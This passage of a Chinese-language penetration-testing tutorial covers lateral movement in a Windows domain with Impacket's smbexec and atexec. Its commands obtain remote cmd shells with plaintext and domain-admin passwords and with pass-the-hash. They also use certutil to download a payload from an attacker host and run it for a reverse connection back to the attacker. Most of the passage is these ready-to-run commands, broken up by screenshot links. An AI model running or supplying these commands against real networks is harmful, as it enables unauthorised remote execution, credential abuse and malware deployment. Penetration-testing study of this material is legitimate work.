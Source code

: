     smbexec.exe 
    rootkit/administrator:admin!@#45@192.168.3.76
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008212754945.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
在socks网络环境下(图中所示socks工具为proxifier)，使用local主机密码认证对远程主机192.168.3.76执行命令，smbexec产生一个伪交互的cmd shell

    smbexec.exe 
    ./administrator:Win2008@192.168.3.76
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008212811312.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
在交互shell下，下载可执行程序(msf、cs等任意文件)

    certutil -urlcache -split -f http://10x.xx.xx.x7:8080/lib8.exe
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008212829103.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

#### atexec

atexec是通过windows计划任务执行远程命令，atexec是一个半交互的工具，即参数中添加需要在远程主机执行的命令，工具执行后即返回命令结果，适用于webshell下，也适用于其他网络环境。

某些情况下，当获取到webshell之后，发现该主机不可出外网，且无法创建内网代理，只能通过webshell进行内网渗透测试, 如下图，在蚁剑客户端运行atexec，在远程机器上执行任意命令

    atexec.exe ./administrator:Win2008@192.168.3.76 "whoami"
    
    atexec.exe ./administrator:Win2008@192.168.3.76 "ipconfig"
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008212920792.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
如果网络环境为已有内网socks代理环境，在socks网络环境下(图中所示socks工具为proxifier)，可使用密码认证对远程主机192.168.3.76执行命令

    atexec.exe ./administrator:Win2008@192.168.3.76 "whoami" 
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008212940209.png%23pic_center)-
在socks网络环境下(图中所示socks工具为proxifier)，使用NTLM hash认证对远程主机192.168.3.76执行命令

    atexec.exe -hashes :DF92E298362E3E180EC0EE7226AFB825 ./administrator@192.168.3.76 "whoami"
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008212956567.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
在socks网络环境下(图中所示socks工具为proxifier)，使用域管帐户密码认证对远程主机192.168.3.76执行命令，下载可执行程序(如msf、cs、其他任意文件，如密码获取、信息收集等)

    atexec.exe 
    rootkit/administrator:admin!@#45@192.168.3.76 "certutil -urlcache -split -f http://10x.xx.xx.x7:8080/lib8.exe" 
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201008213018536.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
在上图下载可执行程序情况下，使用域管帐户密码认证远程执行该程序，使主机反向回连
